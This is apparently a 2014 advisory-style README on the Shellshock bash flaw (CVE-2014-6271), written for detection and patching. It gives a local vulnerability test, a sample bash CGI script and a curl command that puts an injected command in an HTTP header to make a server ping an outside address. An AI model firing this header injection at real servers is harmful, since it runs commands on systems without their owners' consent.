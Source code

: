 CVE-2014-6271
===

For up-to-date information on this vulnerability as this situation evolves make sure to to give us a follow on twitter: [@CriticalStack](https://twitter.com/criticalstack).  

Come see [@Hectaman](https://twitter.com/hectaman) speak this Sunday September 28, 2014 at 4:00 pm at [Derbycon 2014](https://www.derbycon.com/schedule/)
)


[1. Overview](#overview)

[2. HTTP Header](#httpheader)

[3. Thanks](#thanks)

<a name="overview"></a>
##1. Overview
===

**CVE-2014-6271** is a real nasty one; this vulnerability is in one of those pervasive pieces of software that comes with nearly every unixy type device- the [bash](http://tiswww.case.edu/php/chet/bash/bashtop.html), the Bourne-Again SHell.  Let's test to see if your servers|workstations|internet-of-things is vulnerable:

Open a shell and paste:
```
env x='() { :;}; echo vulnerable' bash -c 'echo hello'
```

If you are not vulnerable, then the following will be shown:
```
bash: warning: x: ignoring function definition attempt
bash: error importing function definition for `x'
hello
```
If you are vulnerable, then you will see:
```
vulnerable
hello
```

If you are vulnerable you should update your device immediately.  I have a feeling that this is the kind of exploit that is going to start cropping up in a large variety of cases.  I'll try to keep this updated to detect the various methods as the situation evolves.

<a name="httpheader"></a>
##2. HTTP Header Attack
===


First POC is out- attempting to attack bash based cgi scripts; [internet wide scans](http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html) have been kicked off and I expect to see this genuinely weaponized before the evening is out. 

Let's explore what is happening a little further here; a vulnerable piece of code will look something like this:

```
#!/bin/bash

echo Content-type: text/html
echo ""

/bin/cat << EOM
<HTML>
<HEAD><TITLE>File Output: /home/user1/public_html/text-file.txt </TITLE>
</HEAD>
<BODY bgcolor="#cccccc" text="#000000">
<P>
<SMALL>
<PRE>
EOM

/bin/env

CAT << EOM
</PRE>
</SMALL>
<P>
</BODY>
</HTML>
EOM
```
[source](http://www.yolinux.com/TUTORIALS/LinuxTutorialCgiShellScript.html) 

This piece of code will output something like this:
```
<HTML>
<HEAD><TITLE>File Output: /home/user1/public_html/text-file.txt </TITLE>
</HEAD>
<BODY bgcolor="#cccccc" text="#000000">
<P>
<SMALL>
<PRE>
SERVER_SIGNATURE=
Apache/2.0.40 Server at localhost Port 80


UNIQUE_ID=DErk6n8AAAEAAAblFQEAAAAD
HTTP_USER_AGENT=Mozilla/4.8 [en] (X11; U; Linux 2.4.18-27.8.0 i586)
SERVER_PORT=80
HTTP_HOST=localhost
DOCUMENT_ROOT=/var/www/html
HTTP_ACCEPT_CHARSET=iso-8859-1,*,utf-8
SCRIPT_FILENAME=/var/www/cgi-bin/env.sh
REQUEST_URI=/cgi-bin/env.sh
SCRIPT_NAME=/cgi-bin/env.sh
HTTP_CONNECTION=Keep-Alive
REMOTE_PORT=32984
PATH=/sbin:/usr/sbin:/bin:/usr/bin:/usr/X11R6/bin
PWD=/var/www/cgi-bin
SERVER_ADMIN=root@localhost
HTTP_ACCEPT_LANGUAGE=en
HTTP_ACCEPT=image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
REMOTE_ADDR=127.0.0.1
SHLVL=1
SERVER_NAME=localhost
SERVER_SOFTWARE=Apache/2.0.40 (Red Hat Linux)
QUERY_STRING=
SERVER_ADDR=127.0.0.1
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.0
HTTP_ACCEPT_ENCODING=gzip
REQUEST_METHOD=GET
_=/bin/env
</PRE>
</SMALL>
<P>
</BODY>
</HTML>
```

[mod_cgi](http://httpd.apache.org/docs/2.2/mod/mod_cgi.html) takes all of the HTTP header fields and passes them to the bash script as environment variables for execution.  And you know that the **remote** party, the *connection originator* controls all of the client headers...  Really this is as simple as just using curl:

```
curl -k -H 'User-Agent: () { :;}; /bin/ping -c1  XXX.XXX.XXX.XXX' http://127.0.0.1/cgi-bin/hi
``` 

And of course, you don't need to use a common field, such as the **user-agent**- any field will work!  So far we have not seen or been able to get a URL encoded version of this exploit to work- however, I expect to see significant "inovation" in this space.  More to come.

<a name="thanks"></a>
##3. Thanks
===

Thanks to [@hackerplaybook](https://twitter.com/hackerplaybook) for the help testing.  Give him (and Me- [@Hectaman](https://twitter.com/hectaman)) a follow!